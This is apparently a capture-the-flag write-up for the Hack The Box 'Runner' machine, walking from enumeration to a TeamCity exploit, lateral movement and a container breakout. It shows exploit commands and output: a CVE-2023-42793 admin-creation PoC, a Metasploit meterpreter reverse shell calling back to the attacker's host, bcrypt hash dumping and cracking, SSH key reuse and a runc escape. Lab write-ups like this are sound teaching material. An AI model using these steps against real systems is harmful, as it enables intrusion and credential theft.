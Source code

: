 ```yaml
---
layout: post
title: "HTB Linux Medium: Runner"
description: "Runner is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Medium]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 22,80,8000 -T4 10.129.217.112
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-04-20 15:23 EDT
Nmap scan report for runner.htb (10.129.217.112)
Host is up (0.028s latency).

PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
80/tcp   open     http        nginx 1.18.0 (Ubuntu)
|_http-title: Runner - CI/CD Specialists
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open     nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.33 seconds
```

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.217.112 runner.htb
```


## Enumerate HTTP (Port 80)
Subdomain enumeration using the largest DNS SecList wordlist returned the teamcity subdomain.
```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -w /opt/SecLists/Discovery/DNS/n0kovo_subdomains.txt -H "Host: FUZZ.runner.htb" -u <http://runner.htb> -fs 154 

        /'___\\  /'___\\           /'___\\       
       /\\ \\__/ /\\ \\__/  __  __  /\\ \\__/       
       \\ \\ ,__\\\\ \\ ,__\\/\\ \\/\\ \\ \\ \\ ,__\\      
        \\ \\ \\_/ \\ \\ \\_/\\ \\ \\_\\ \\ \\ \\ \\_/      
         \\ \\_\\   \\ \\_\\  \\ \\____/  \\ \\_\\       
          \\/_/    \\/_/   \\/___/    \\/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : <http://runner.htb>
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/n0kovo_subdomains.txt
 :: Header           : Host: FUZZ.runner.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 349ms]
```

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.248.232 runner.htb teamcity.runner.htb
```

Browsing to the newly found subdomain, we get a teamcity page with the version of 2023.05.3.
![Pasted image 20240714211941.png](/images/Pasted image 20240714211941.png){: .normal width="500"}


Whilst googling for exploits we come across the following: [PoC](https://github.com/johnossawy/CVE-2023-42793_POC/blob/main/CVE_2023_42793.py)
```bash
┌──(kali㉿kali)-[~]
└─$ python3 hacker.py -u <http://teamcity.runner.htb/>          
Targeting URL: <http://teamcity.runner.htb/>
Attempting to delete user token for <http://teamcity.runner.htb>...
Attempting to create a new user token...
Successfully created a new user token.
Attempting to create a new user with token: eyJ0eXAiOiAiVENWMiJ9.LTcyWndQVG5RWHRVQklkTUh5azQ3Y1lFSGUw.MGUzZDc4ZGQtZjk0YS00NzRkLTg4ZTEtNDgxMTExOTg2MzVk
Successfully created a new user.
[+] <http://teamcity.runner.htb/login.html> [_secops8223:changeme]
```

Further googling reveals a Metasploit module that can gain us shell access: [Link](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)
```bash
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set target 1
target => 1
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set lhost tun0
lhost => 10.10.14.65
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set rport 80
rport => 80
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set rhosts teamcity.runner.htb
rhosts => teamcity.runner.htb
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > run
[*] Started reverse TCP handler on 10.10.14.65:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.N3VVSDNNTWx3eEU1bkt5TkdUYkZiQ0NJWWZZ.NGEyMzM3MDQtNmE1Yi00ZjQwLWFkYzUtMTA3ODkwMDA4OWQ3
[*] Modifying internal.properties to allow process creation...
[*] Waiting for configuration change to be applied...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Sending stage (3045380 bytes) to 10.129.248.232
[*] Waiting for configuration change to be applied...
[*] Deleting the authentication token.
[*] Meterpreter session 1 opened (10.10.14.65:4444 -> 10.129.248.232:58004) at 2024-04-21 02:34:47 -0400

meterpreter > getuid
Server username: tcuser
```


## Lateral movement
On the administration page you have the option to make a backup.
![Pasted image 20240714211931.png](/images/Pasted image 20240714211931.png){: .normal }


In the backup we find a users table.
```bash
┌──(root㉿kali)-[/tmp/database_dump]
└─# cat users       
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1713681282787, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, _secops8223, $2a$07$FzqJBbqZlw6yrv3UcJ2mlux4VkeUERYpXMezC17w..I.QsViPRGBK, , "", 1713680779785, BCRYPT
```

Additionally we find an SSH key.
```bash
┌──(root㉿kali)-[/tmp]
└─# find . -name *ssh* 2>/dev/null
./config/projects/AllProjects/pluginData/ssh_keys
```

We were able to crack the password for the matthew user.
```bash
┌──(kali㉿kali)-[/tmp]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 128 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
piper123         (?)     
1g 0:00:00:55 DONE (2024-04-21 02:44) 0.01818g/s 946.4p/s 946.4c/s 946.4C/s playboy93..onelife
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Trying to SSH using the private key we are able to login using the john user.
```bash
┌──(kali㉿kali)-[~/…/projects/AllProjects/pluginData/ssh_keys]
└─$ ssh -i id_rsa john@runner.htb             
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

  System information as of Sun Apr 21 07:54:17 AM UTC 2024

  System load:                      0.00390625
  Usage of /:                       84.1% of 9.74GB
  Memory usage:                     43%
  Swap usage:                       11%
  Processes:                        230
  Users logged in:                  0
  IPv4 address for br-21746deff6ac: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.248.232
  IPv6 address for eth0:            dead:beef::250:56ff:fe94:bdd8

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

john@runner:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

Linpeas reveals a subdomain.
![Pasted image 20240714211920.png](/images/Pasted image 20240714211920.png){: .normal }


We can login to portainer using the matthew user creds: `matthew:piper123`. Once logged in we have access to portainer.
![Pasted image 20240714211913.png](/images/Pasted image 20240714211913.png){: .normal }


Looks like we have the ability to create containers.
![Pasted image 20240714211909.png](/images/Pasted image 20240714211909.png){: .normal }


Found the following [Link](https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd) to map the local machine directory to the container (set image to teamcity:latest). Also found a CVE by searching for recent docker exploits: [Link](https://snyk.io/blog/leaky-vessels-docker-runc-container-breakout-vulnerabilities/)
![Pasted image 20240714211905.png](/images/Pasted image 20240714211905.png){: .normal }


Now go into the container:
![Pasted image 20240714211901.png](/images/Pasted image 20240714211901.png){: .normal }


User flag: `8515d9dd417d61b2545317b936cd72b2`
```bash
root@c2940657e336:.# cat ../../../../../../../home/john/user.txt
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
8515d9dd417d61b2545317b936cd72b2
```

Root flag: `3cb3c6014621c3fb167c05051cda70bb`
```bash
root@c2940657e336:.# cat ../../../../../../../root/root.txt
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
3cb3c6014621c3fb167c05051cda70bb
```

## PWNED!!!
![Pasted image 20240714211856.png](/images/Pasted image 20240714211856.png){: .normal }